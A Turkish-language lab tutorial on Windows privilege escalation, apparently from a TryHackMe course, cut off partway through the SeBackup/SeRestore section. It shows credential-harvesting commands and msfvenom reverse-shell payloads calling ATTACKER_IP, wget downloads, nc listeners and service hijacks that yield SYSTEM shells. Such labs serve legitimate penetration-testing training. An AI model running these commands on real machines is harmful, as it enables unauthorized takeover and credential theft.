

# Windows Privilege Escalation (Yetki Yükseltme)

Bu bölümde Windows makinelerinde başlangıç düzeyinde yetki yükseltme metodları anlatılacaktır.

## Windows Kullanıcıları

+ Administrators: Bu kullanıcılar en fazla yetkiye sahiptir. Herhangi bir sistem yapılandırma parametresini değiştirebilir ve sistemdeki herhangi bir dosyaya erişebilirler.
+ Standart Kullanıcılar: Bu kullanıcılar bilgisayara erişebilir ancak yalnızca sınırlı görevleri gerçekleştirebilirler. Tipik olarak bu kullanıcılar sistemde kalıcı veya önemli değişiklikler yapamazlar ve dosyalarıyla sınırlıdırlar.

Yönetici yetkilerine sahip her kullanıcı Administrators grubunun bir parçası olacaktır. Öte yandan, standart kullanıcılar Users grubunun bir parçasıdır.

Buna ek olarak, genellikle yetki yükseltme bağlamında işletim sistemi tarafından kullanılan bazı özel yerleşik hesapları da duyacaksınız:
+ SYSTEM / LocalSystem:
İşletim sistemi tarafından dahili görevleri gerçekleştirmek için kullanılan bir hesap. Ana makinede bulunan tüm dosyalara ve kaynaklara erişebilir. Yöneticilerden bile daha yüksek yetkilere tam erişime sahiptir.
+ Local Service:
Windows hizmetlerini "minimum" yetkilerle çalıştırmak için kullanılan varsayılan hesap. Ağ üzerinden anonim bağlantılar kullanacaktır.
+ Network Service:
Windows hizmetlerini "minimum" yetkilerle çalıştırmak için kullanılan varsayılan hesap. Ağ üzerinden kimlik doğrulaması yapmak için bilgisayar kimlik bilgilerini kullanacaktır.

Bu hesaplar Windows tarafından oluşturulup yönetilir ve bunları diğer normal hesaplar gibi kullanamazsınız. Yine de bazı durumlarda, belirli hizmetlerden yararlanarak onların yetkilerini kazanabilirsiniz.

## Olağan Şifre Lokasyonları

Başka bir kullanıcıya erişmenin en kolay yolu, güvenliği ihlal edilmiş bir makineden kimlik bilgileri toplamaktır. Bu tür kimlik bilgileri, dikkatsiz bir kullanıcının bunları düz metin dosyalarında bırakması; hatta tarayıcılar veya e-posta istemcileri gibi bazı yazılımlar tarafından bile depolanır.

### Gözetimsiz Windows Kurulumları

Windows'u çok sayıda ana bilgisayara yüklerken yöneticiler, tek bir işletim sistemi görüntüsünün ağ üzerinden birden fazla ana bilgisayara dağıtılmasına olanak tanıyan Windows Dağıtım Hizmetlerini (Windows Deployment Services) kullanabilir. Bu tür kurulumlar, kullanıcı etkileşimi gerektirmediği için gözetimsiz kurulumlar olarak anılır. Bu tür kurulumlar, ilk kurulumun gerçekleştirilmesi için bir yönetici hesabının kullanılmasını gerektirir; bu yönetici hesabının bilgileri, makinede aşağıdaki konumlarda saklanabilir:

+ C:\Unattend.xml
+ C:\Windows\Panther\Unattend.xml
+ C:\Windows\Panther\Unattend\Unattend.xml
+ C:\Windows\system32\sysprep.inf
+ C:\Windows\system32\sysprep\sysprep.xml

Bu dosyaların bir parçası olarak kimlik bilgileriyle karşılaşabilirsiniz:

    <Credentials>
        <Username>Administrator</Username>
        <Domain>thm.local</Domain>
        <Password>MyPassword123</Password>
    </Credentials>

### Powershell Geçmişi

Bir kullanıcı Powershell kullanarak bir komut çalıştırdığında, bu komut geçmiş komutların hafızasını tutan bir dosyaya depolanır. Bu, daha önce kullandığınız komutları hızlı bir şekilde tekrarlamak için kullanışlıdır. Bir kullanıcı doğrudan Powershell komut satırının bir parçası olarak parola içeren bir komut çalıştırırsa, bu parola daha sonra cmd.exe komut isteminden aşağıdaki komut kullanılarak alınabilir:

    type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

Not: Powershell %userprofile% dosyasını bir ortam değişkeni olarak tanımayacağından yukarıdaki komut yalnızca cmd.exe'den çalışacaktır. Dosyayı Powershell'den okumak için %userprofile% öğesini $Env:userprofile ile değiştirmeniz gerekir.

### Kaydedilmiş Windows Kimlik Bilgileri

Windows diğer kullanıcıların kimlik bilgilerini kullanmamıza izin verir. Bu işlev aynı zamanda bu kimlik bilgilerini sisteme kaydetme seçeneği de sunar. Aşağıdaki komut kayıtlı kimlik bilgilerini listeleyecektir:

    cmdkey /list

Gerçek şifreleri göremeseniz de denemeye değer kimlik bilgileri fark ederseniz bunları aşağıda görüldüğü gibi runas komutu ve /savecred seçeneğiyle kullanabilirsiniz.

    runas /savecred /user:admin cmd.exe

### IIS Yapılandırması

Internet Information Services (IIS), Windows kurulumlarındaki varsayılan web sunucusudur. IIS'deki web sitelerinin yapılandırması web.config adlı bir dosyada saklanır ve veritabanları veya yapılandırılmış kimlik doğrulama mekanizmaları için parolaları saklayabilir. IIS'nin yüklü sürümüne bağlı olarak web.config'i aşağıdaki konumlardan birinde bulabiliriz:

+ C:\inetpub\wwwroot\web.config
+ C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Dosyadaki veritabanı bağlantı stringlerini bulmanın hızlı bir yolu:

    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

### PuTTY Yazılımından Kimlik Bilgileri

PuTTY, Windows sistemlerinde yaygın olarak bulunan bir SSH istemcisidir. Kullanıcılar her seferinde bir bağlantının parametrelerini belirtmek zorunda kalmak yerine, IP'nin, kullanıcının ve diğer yapılandırmaların daha sonra kullanılmak üzere saklanabileceği oturumları(sessionları) depolayabilir. PuTTY, kullanıcıların SSH şifrelerini saklamasına izin vermezken, açık metin(cleartext) kimlik doğrulama bilgilerini içeren proxy yapılandırmalarını saklar.

Saklanan proxy kimlik bilgilerini almak için aşağıdaki kayıt defteri anahtarı altında ProxyPassword'ü aşağıdaki komutla arayabilirsiniz:

    reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

Not: Simon Tatham, şifresini aldığımız kullanıcı adı değil, PuTTY'nin yaratıcısıdır (ve adı path'ın bir parçasıdır). Saklanan proxy kullanıcı adı, yukarıdaki komutu çalıştırdıktan sonra da görünür olmalıdır.

Putty'nin kimlik bilgilerini saklaması gibi, tarayıcılar, e-posta istemcileri, FTP istemcileri, SSH istemcileri, VNC yazılımı ve diğerleri de dahil olmak üzere parolaları saklayan herhangi bir yazılım, kullanıcının kaydettiği parolaları ele alma yöntemlerine sahip olacaktır.

## Bazı Hızlı Privilege Escalation'lar

### Planlı Görevler (Task'lar)

Hedef sistemdeki planlanmış görevlere baktığınızda binary dosyasını kaybetmiş veya değiştirebileceğiniz bir binary dosya kullanan planlanmış bir görev görebilirsiniz.

Planlanmış görevler, herhangi bir seçenek olmadan schtasks komutu kullanılarak komut satırından listelenebilir. Herhangi bir hizmet hakkında ayrıntılı bilgi almak için aşağıdaki gibi bir komut kullanabilirsiniz:

    C:\> schtasks /query /tn vulntask /fo list /v
    Folder: \
    HostName:                             THM-PC1
    TaskName:                             \vulntask
    Task To Run:                          C:\tasks\schtask.bat
    Run As User:                          taskusr1

Görev hakkında pek çok bilgi alacaksınız, ancak bizim için önemli olan, planlanan görev tarafından neyin yürütüleceğini gösteren "Task To Run" parametresi ve kullanılacak kullanıcıyı gösteren "Run As User" parametresidir.

Mevcut kullanıcımız "Task To Run" yürütülebilir dosyasını değiştirebilir veya üzerine yazabilirse, taskusr1 kullanıcısı tarafından nelerin yürütüleceğini kontrol edebiliriz, bu da basit bir yetki artışıyla sonuçlanır. Yürütülebilir dosyadaki dosya izinlerini kontrol etmek için icacls kullanıyoruz:

    C:\> icacls c:\tasks\schtask.bat

    c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                        BUILTIN\Administrators:(I)(F)
                        BUILTIN\Users:(I)(F)

Sonuçta görülebileceği gibi BUILTIN\Users grubu görevin binary dosyası üzerinde tam erişime (F) sahiptir. Bu, .bat dosyasını değiştirebileceğimiz ve istediğimiz herhangi bir payloadı ekleyebileceğimiz anlamına gelir. Böylece taskusr1 kullanıcısı ile reverse shell alabiliriz.

Planlanmış görevin bir sonraki çalıştırılışında, taskusr1 yetkilerine sahip reverse shell'i almalısınız. Gerçek bir senaryoda muhtemelen görevi başlatamayacaksınız ve planlanmış görevin tetiklenmesini beklemek zorunda kalacaksınız. Eğer iznimiz varsa aşağıdaki komutla bu görevin tekrar çalışmasını beklemeden manuel olarak başlatabiliriz.

    C:\> schtasks /run /tn vulntask

Beklendiği gibi, taskusr1 ayrıcalıklarına sahip reverse shell'i alacağız.

### AlwaysInstallElevated

Windows yükleyici dosyaları (.msi dosyaları olarak da bilinir) sisteme uygulama yüklemek için kullanılır. Genellikle onu başlatan kullanıcının yetki düzeyiyle çalışırlar. Ancak bunlar, herhangi bir kullanıcı hesabından (ayrıcalıksız olanlar bile) daha yüksek yetkilerle çalışacak şekilde yapılandırılabilir. Bu, potansiyel olarak yönetici yetkileriyle çalışacak kötü amaçlı bir MSI dosyası oluşturmamıza olanak tanıyabilir.

Bu yöntem iki kayıt defteri değerinin ayarı olmasını gerektirir. Bunları aşağıdaki komutları kullanarak komut satırından sorgulayabilirsiniz.

    C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

Bu güvenlik açığından yararlanabilmek için her ikisinin de ayarlı olması gerekir. Aksi takdirde sömürü mümkün olmayacaktır. Bunlar ayarlanırsa aşağıda görüldüğü gibi msfvenom'u kullanarak kötü amaçlı bir .msi dosyası oluşturabilirsiniz:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

Bu bir reverse shell olduğundan, buna göre yapılandırılmış Metasploit Handler modülü ile dinlemeyi açmalısınız. Oluşturduğunuz dosyayı kurban bilgisayara aktardıktan sonra aşağıdaki komutla .msi dosyasını çalıştırıp reverse shell'i alabilirsiniz:

    C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

## Yanlış Yapılandırılmış Servisler

Windows servisleri, Servis Kontrol Yöneticisi (Service Control Manager) (SCM) tarafından yönetilir. SCM, servislerin durumunu gerektiği gibi yönetmekten, belirli bir servisin mevcut durumunu kontrol etmekten ve genel olarak servisleri yapılandırmak için bir yol sağlamaktan sorumlu bir süreçtir.

Bir Windows makinesindeki her servis, bir servis başlatıldığında SCM tarafından çalıştırılacak ilişkili bir yürütülebilir dosyaya sahip olacaktır. Servis yürütülebilir dosyalarının SCM ile iletişim kurabilmek için özel işlevler uyguladığını ve bu nedenle herhangi bir yürütülebilir dosyanın bir servis olarak başarıyla başlatılamayacağını unutmamak önemlidir. Her servis aynı zamanda servisin altında çalışacağı kullanıcı hesabını da belirtir.

Bir servisin yapısını daha iyi anlamak için sc qc komutuyla apphostsvc servis yapılandırmasını kontrol edelim:

    C:\> sc qc apphostsvc
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: apphostsvc
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Application Host Helper Service
            DEPENDENCIES       :
            SERVICE_START_NAME : localSystem

Burada ilgili yürütülebilir dosyanın BINARY_PATH_NAME parametresi aracılığıyla belirtildiğini ve servisi çalıştırmak için kullanılan hesabın SERVICE_START_NAME parametresinde gösterildiğini görebiliriz.

Servislerde, diğer yetkilerin yanı sıra kimin servisi başlatma, durdurma, duraklatma, sorgulama durumu, sorgulama yapılandırması veya yeniden yapılandırma iznine sahip olduğunu gösteren bir İsteğe Bağlı Erişim Denetim Listesi (Disrectionary Access Control List) (DACL) bulunur. DACL, Process Hacker'dan görülebilir:

Servis yapılandırmalarının tümü kayıt defterinde HKLM\SYSTEM\CurrentControlSet\Services\ altında saklanır:

Sistemdeki her servis için bir alt anahtar mevcuttur. Yine ImagePath değerinde ilişkili yürütülebilir dosyayı ve ObjectName değerinde servisi başlatmak için kullanılan hesabı görebiliriz. Servis için bir DACL yapılandırıldıysa, Güvenlik adı verilen bir alt anahtarda saklanacaktır. Şimdiye kadar tahmin ettiğiniz gibi, bu tür kayıt defteri girişlerini varsayılan olarak yalnızca yöneticiler değiştirebilir.

### Servis Executable'ındaki Güvensiz İzinler

Bir servisle ilişkili yürütülebilir dosyanın, bir saldırganın onu değiştirmesine veya değiştirmesine olanak tanıyan zayıf izinleri varsa, saldırgan, servis hesabının yetkilerini basit bir şekilde ele geçirebilir.

Bunun nasıl çalıştığını anlamak için Splinterware System Scheduler'da bulunan bir güvenlik açığına bakalım. Başlamak için sc kullanarak servis yapılandırmasını sorgulayacağız:

    C:\> sc qc WindowsScheduler
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: windowsscheduler
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 0   IGNORE
            BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : System Scheduler Service
            DEPENDENCIES       :
            SERVICE_START_NAME : .\svcuser1

Güvenlik açığı bulunan yazılımın yüklediği servisin svcuser1 olarak çalıştığını ve servisle ilişkili yürütülebilir dosyanın C:\Progra~2\System~1\WService.exe konumunda olduğunu görebiliriz. Daha sonra yürütülebilir dosyadaki izinleri kontrol etmeye devam ediyoruz:

    C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe

    C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                    NT AUTHORITY\SYSTEM:(I)(F)
                                    BUILTIN\Administrators:(I)(F)
                                    BUILTIN\Users:(I)(RX)
                                    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                    APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

    Successfully processed 1 files; Failed processing 0 files

Ve burada ilginç bir şeyimiz var. Everyone grubu, servisin yürütülebilir dosyasında değişiklik izinlerine (M) sahiptir. Bu, tercih ettiğimiz herhangi bir payloadı bu dosyanın üzerine kolayca yazabileceğimiz ve servisin bunu yapılandırılmış kullanıcı hesabının yetkileriyle yürüteceği anlamına gelir.

Msfvenom'u kullanarak bir exe-servis payloadı  oluşturalım ve bunu bir python web sunucusu aracılığıyla paylaşalım:

    user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

    user@attackerpc$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

Daha sonra aşağıdaki komutla payloadı Powershell ile çekebiliriz:

    wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

Payload Windows sunucusuna girdikten sonra, yürütülebilir servisi payloadımızla değiştirmeye devam ediyoruz. Payloadımızı yürütmek için başka bir kullanıcıya ihtiyacımız olduğundan, Everyone grubuna da tam izinler vermek isteyeceğiz:

    C:\> cd C:\PROGRA~2\SYSTEM~1\

    C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
            1 file(s) moved.

    C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
            1 file(s) moved.

    C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
            Successfully processed 1 files.

Saldırgan makinemizde dinleyiciyi başlatıyoruz:

    user@attackerpc$ nc -lvp 4445

Ve son olarak servisi yeniden başlatalım. Normal bir senaryoda, muhtemelen servisin yeniden başlatılmasını beklemeniz gerekir. Eğer gerekli yetkiniz varsa aşağıdaki komut ile manuel olarak servisi başlatabilirsiniz:

    C:\> sc stop windowsscheduler
    C:\> sc start windowsscheduler

Not: PowerShell'de sc yerine Set-Content vardır, bu nedenle PowerShell ile servisleri bu şekilde kontrol etmek için sc.exe'yi kullanmanız gerekir.

Sonuç olarak, svcusr1 yetkilerine sahip bir reverse shell elde edeceksiniz:

    user@attackerpc$ nc -lvp 4445
    Listening on 0.0.0.0 4445
    Connection received on 10.10.175.90 50649
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    wprivesc1\svcusr1

### Kesin Olarak Executable'ı Belirtilmeyen Servisler (Unquoted Service Paths)

Önceki gibi servis yürütülebilir dosyalarına doğrudan yazma iznimiz olmazsa, oldukça belirsiz bir özellik kullanarak bir servisi isteğe bağlı yürütülebilir dosyalar çalıştırmaya zorlama şansımız olabilir.

Windows servisleriyle çalışırken, servis "tırnaklanmamış" bir yürütülebilir dosyayı işaret edecek şekilde yapılandırıldığında çok özel bir davranış ortaya çıkar. Tırnaklanmış olarak, ilgili yürütülebilir dosyanın yolunun, komuttaki boşlukları hesaba katacak şekilde uygun şekilde tırnaklandığını kastediyoruz.

Örnek olarak iki servis arasındaki farka bakalım. İlk servis, SCM'nin "C:\Program Files\RealVNC\VNC Server\vncserver.exe" ile gösterilen binary dosyayı ve ardından verilen parametreleri yürütmesi gerektiğini şüphesiz bilmesi için uygun bir tırnak işareti kullanacaktır:

    C:\> sc qc "vncserver"
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: vncserver
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 0   IGNORE
            BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : VNC Server
            DEPENDENCIES       :
            SERVICE_START_NAME : LocalSystem

Şimdi uygun bir tırnak işaretine alınmamış başka bir hizmete bakalım:

    C:\> sc qc "disk sorter enterprise"
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: disk sorter enterprise
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 0   IGNORE
            BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Disk Sorter Enterprise
            DEPENDENCIES       :
            SERVICE_START_NAME : .\svcusr2

SCM ilgili binary dosyayı yürütmeye çalıştığında bir sorun ortaya çıkar. "Disk Sorter Enterprise" klasörünün adında boşluklar bulunduğundan komut belirsiz hale gelir ve SCM aşağıdakilerden hangisini yürütmeye çalıştığınızı bilemez:

+ Komut: C:\MyPrograms\Disk.exe	Parametre1: Sorter Parametre2: 	Enterprise\bin\disksrs.exe
+ Komut: C:\MyPrograms\Disk Sorter.exe	Parametre1: Enterprise\bin\disksrs.exe
+ Komut: C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

Bunun, komut isteminin bir komutu nasıl parse ettiğiyle ilgisi vardır. Genellikle, bir komut gönderdiğinizde boşluklar, tırnak içine alınan bir string parçası olmadıkları sürece bağımsız argüman ayırıcıları olarak kullanılır. Bu, tırnak işaretine alınmamış komutun "doğru" yorumunun C:\\MyPrograms\\Disk.exe dosyasını yürütmek ve geri kalanını argüman olarak almak olacağı anlamına gelir.

SCM, olması gerektiği gibi başarısız olmak yerine, kullanıcıya yardım etmeye çalışır ve binary dosyaların her birini tabloda gösterilen sırayla aramaya başlar:

+ Öncelikle C:\\MyPrograms\\Disk.exe dosyasını arar. Varsa, servis bu yürütülebilir dosyayı çalıştıracaktır.
+ Mevcut değilse, C:\\MyPrograms\\Disk Sorter.exe dosyasını arayacaktır. Varsa, servis bu yürütülebilir dosyayı çalıştıracaktır.
+ Bu da mevcut değilse, C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe dosyasını arayacaktır. Bu seçeneğin başarılı olması beklenir ve genellikle varsayılan durumda bu çalıştırılır.

Bu davranıştan sorun açıkça ortaya çıkıyor. Bir saldırgan, beklenen servis yürütülebilir dosyasından önce aranan yürütülebilir dosyalardan herhangi birini oluşturursa, servisin keyfi bir yürütülebilir dosya çalıştırmasına zorlanabilir.

Bu basit görünse de, servis yürütülebilir dosyalarının çoğu, varsayılan olarak C:\Program Files veya C:\Program Files (x86) altına yüklenecektir ve bu klasör, yetkisi olmayan kullanıcılar tarafından yazılamaz. Bu, herhangi bir güvenlik açığı bulunan hizmetin kötüye kullanılmasını önler. Bu kuralın istisnaları vardır: - Bazı yükleyiciler yüklü klasörlerdeki izinleri değiştirerek servisleri savunmasız hale getirir. - Yönetici, servis binary dosyalarını varsayılan olmayan bir yola yüklemeye karar verebilir. Böyle bir yol herkes tarafından yazılabilir izne sahipse, güvenlik açığından yararlanılabilir.

Bizim durumumuzda, Yönetici Disk Sorter binary dosyalarını c:\MyPrograms altına kurdu. Varsayılan olarak bu, herhangi bir kullanıcının bu dizin içinde dosya ve klasör oluşturmasına olanak tanıyan C:\ dizininin izinlerini devralır. Bunu icacls kullanarak kontrol edebiliriz:

    C:\>icacls c:\MyPrograms
    c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                BUILTIN\Administrators:(I)(OI)(CI)(F)
                BUILTIN\Users:(I)(OI)(CI)(RX)
                BUILTIN\Users:(I)(CI)(AD)
                BUILTIN\Users:(I)(CI)(WD)
                CREATOR OWNER:(I)(OI)(CI)(IO)(F)

    Successfully processed 1 files; Failed processing 0 files

BUILTIN\\Users grubu, kullanıcının sırasıyla alt dizinler ve dosyalar oluşturmasına olanak tanıyan AD ve WD ayrıcalıklarına sahiptir.

Msfvenom ile bir exe-servis payloadı oluşturup hedef ana bilgisayara aktarma işlemi öncekiyle aynıdır, bu nedenle aşağıdaki payloadı oluşturup daha önce olduğu gibi sunucuya yükleyeceğiz. Ayrıca çalıştırıldığında reverse shell'i alacak bir dinleyici başlatacağız:

    user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

    user@attackerpc$ nc -lvp 4446

Payload sunucuya girdikten sonra, onu, hijack'ın meydana gelebileceği konumlardan herhangi birine taşıyın. Bu durumda payloadımızı C:\MyPrograms\Disk.exe'ye taşıyacağız. Ayrıca dosyanın servis tarafından yürütülebilmesini sağlamak için herkese dosya üzerinde tam izinler vereceğiz:

    C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

    C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
            Successfully processed 1 files.

Servis yeniden başlatıldığında payload yürütülecektir:

    C:\> sc stop "disk sorter enterprise"
    C:\> sc start "disk sorter enterprise"

Sonuç olarak, svcusr2 yetkilerine sahip bir reverse shell elde edeceksiniz:

    user@attackerpc$ nc -lvp 4446
    Listening on 0.0.0.0 4446
    Connection received on 10.10.175.90 50650
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    wprivesc1\svcusr2

### Servisin Kendisindeki Güvensiz İzinler

Servisin yürütülebilir DACL'si iyi yapılandırılmışsa ve servisin binary yolu doğru şekilde ayarlanmışsa, servisten yararlanma şansınız hala olabilir. Servis DACL'si (servisin yürütülebilir DACL'si değil) bir servisin yapılandırmasını değiştirmenize izin veriyorsa, servisi yeniden yapılandırabiliriz. Bu, ihtiyacınız olan herhangi bir yürütülebilir dosyayı işaret etmenize ve SYSTEM'in kendisi de dahil olmak üzere tercih ettiğiniz herhangi bir hesapla çalıştırmanıza olanak tanır.

Komut satırından bir servis DACL'sini kontrol etmek için Sysinternals paketindeki Accesschk'i kullanabilirsiniz. Thmservice servisinin DACL'ini kontrol etme komutu şöyledir:

    C:\tools\AccessChk> accesschk64.exe -qlc thmservice
    [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
            SERVICE_QUERY_STATUS
            SERVICE_QUERY_CONFIG
            SERVICE_INTERROGATE
            SERVICE_ENUMERATE_DEPENDENTS
            SERVICE_PAUSE_CONTINUE
            SERVICE_START
            SERVICE_STOP
            SERVICE_USER_DEFINED_CONTROL
            READ_CONTROL
    [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
            SERVICE_ALL_ACCESS

Burada BUILTIN\\Users grubunun SERVICE_ALL_ACCESS iznine sahip olduğunu görebiliriz, bu da herhangi bir kullanıcının servisi yeniden yapılandırabileceği anlamına gelir.

Servisi değiştirmeden önce, başka bir exe-servis reverse shell'i oluşturalım ve saldırganın makinesinde bunun için bir dinleyici başlatalım:

    user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

    user@attackerpc$ nc -lvp 4447

Daha sonra yürütülebilir reverse shell'i hedef makineye aktaracağız ve C:\Users\thm-unpriv\rev-svc3.exe'de saklayacağız. Yürütülebilir dosyanızı aktarmak ve istediğiniz konuma taşımak için wget'i kullanmaktan çekinmeyin. Payloadı yürütmek için Herkese izin vermeyi unutmayın:

    C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F

Servisin ilişkili yürütülebilir dosyasını ve hesabını değiştirmek için aşağıdaki komutu kullanabiliriz (sc.exe'yi kullanırken eşittir işaretinden sonraki boşluklara dikkat edin):

    C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

Servisi çalıştırmak için herhangi bir hesabı kullanabileceğimize dikkat edin. Mevcut en yüksek yetkili hesap olduğu için LocalSystem'i seçtik. Payloadı tetiklemek için geriye kalan tek şey servisi yeniden başlatmaktır:

    C:\> sc stop THMService
    C:\> sc start THMService

Ve saldırganımızın makinesinde SYSTEM yetkilerine sahip bir reverse shell alacağız:

    user@attackerpc$ nc -lvp 4447
    Listening on 0.0.0.0 4447
    Connection received on 10.10.175.90 50650
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    NT AUTHORITY\SYSTEM

## Tehlikeli Yetkiler

Yetkiler, bir hesabın sistemle ilgili belirli görevleri gerçekleştirmek için sahip olduğu haklardır. Bu görevler, basit bir makineyi kapatma yetkilerinden bazı DACL tabanlı erişim kontrollerini atlama yetkilerine kadar olabilir.

Her kullanıcının aşağıdaki komutla kontrol edilebilecek bir dizi atanmış yetkileri vardır:

    whoami /priv

Windows sistemlerinde mevcut yetkilerin tam listesini burada(https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) bulabilirsiniz. Saldırganın bakış açısından yalnızca sistemde yükselmemize izin veren yetkiler ilgi çekicidir. Kullanılabilir yetkilerin kapsamlı bir listesini Priv2Admin Github projesinde(https://github.com/gtworek/Priv2Admin) bulabilirsiniz.

Her birine tek tek bakmasak da, bulabileceğiniz en yaygın yetkilerden bazılarını nasıl kötüye kullanabileceğinizi göstereceğiz.

### SeBackup / SeRestore

SeBackup ve SeRestore yetkileri, kullanıcıların mevcut herhangi bir DACL'yi göz ardı ederek sistemdeki herhangi bir dosyayı okumasına ve yazmasına olanak tanır. Bu yetkinin ardındaki fikir, belirli kullanıcıların tam yönetici yetkilerine ihtiyaç duymadan bir sistemden yedekleme yapmasına izin vermektir.

Bu güce sahip olan bir saldırgan, birçok teknik kullanarak sistemdeki yetkisini basitçe yükseltebilir. Yapacağımız şey, yerel Administrator'un şifre hash'ini çıkarmak için SAM ve SYSTEM kayıt defteri hive'larının kopyalanmasından ibarettir.

Bir ana bilgisayara eriştiğimizde bu bilgisayarın Backup Operators grubunda yer aldığını görüyoruz. Bu gruba varsayılan olarak SeBackup ve SeRestore yetkileri verilir. Bu yetkileri kullanabilmek için "Yönetici olarak aç" seçeneğini kullanarak bir komut istemi açmamız gerekecek. Yükseltilmiş bir konsol almak için şifremizi tekrar girmemiz istenecek.

Komut istemine girdikten sonra aşağıdaki komutla yetkilerimizi kontrol edebiliriz:

    C:\> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== ========
    SeBackupPrivilege             Back up files and directories  Disabled
